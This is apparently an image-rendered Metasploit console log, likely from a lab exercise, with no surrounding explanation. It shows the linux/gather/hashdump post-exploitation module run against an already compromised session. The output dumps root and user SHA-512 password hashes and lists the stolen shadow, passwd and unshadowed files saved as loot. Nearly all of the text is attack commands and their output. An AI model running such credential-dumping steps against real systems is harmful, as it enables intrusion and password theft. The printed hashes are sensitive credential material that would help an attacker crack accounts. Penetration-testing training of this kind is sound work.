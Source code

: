 ```
msf5 post(linux/gather/hashdump) > show options

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  3                yes       The session to run this module on.

msf5 post(linux/gather/hashdump) > set SESSION 4
SESSION => 4
msf5 post(linux/gather/hashdump) > run

[+] root:$6$eY6fkgwD$IDNcKw91uICNzTu5LwVQZCosxN4iMqc/lRONUywb7ln/YA/6XmfYnYlAPQ84AutqxGoTR3fw038KO8xMpBy.U/:0:0:root:/root:/bin/bash
[+] alexis:$6$R3JXrhz9$QGleQFz9xi66c4Tnl2v2TC2qrbxF74RSJa7dek8M6LX5Sx4gyg7Swhp0CVIVpMQ5vbJ/MAB.b5lgZ1HiH2lbD.:1000:1000::/home/alexis:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20230317133657_hashdump_192.153.226.3_linux.hashes_438803.txt
[*] Post module execution completed
```

```
msf5 post(linux/gather/hashdump) > loot

Loot
====

host           service  type          name                   content     info                            path
----           -------  ----          ----                   -------     ----                            ----
192.153.226.3           linux.shadow  shadow.tx              text/plain  Linux Password Shadow File      /root/.msf4/loot/20230317131814_hashdump_192.153.22
6.3_linux.shadow_750836.txt
192.153.226.3           linux.passwd  passwd.tx              text/plain  Linux Passwd File               /root/.msf4/loot/20230317131814_hashdump_192.153.22
6.3_linux.passwd_260851.txt
192.153.226.3           linux.hashes  unshadowed_passwd.pwd  text/plain  Linux Unshadowed Password File  /root/.msf4/loot/20230317131814_hashdump_192.153.22
6.3_linux.hashes_755521.txt
192.153.226.3           linux.shadow  shadow.tx              text/plain  Linux Password Shadow File      /root/.msf4/loot/20230317133657_hashdump_192.153.22
6.3_linux.shadow_096564.txt
192.153.226.3           linux.passwd  passwd.tx              text/plain  Linux Passwd File               /root/.msf4/loot/20230317133657_hashdump_192.153.22
6.3_linux.passwd_409093.txt
192.153.226.3           linux.hashes  unshadowed_passwd.pwd  text/plain  Linux Unshadowed Password File  /root/.msf4/loot/20230317133657_hashdump_192.153.22
6.3_linux.hashes_438803.txt
```

linux.hashes: unshadowed_passwd.pwd
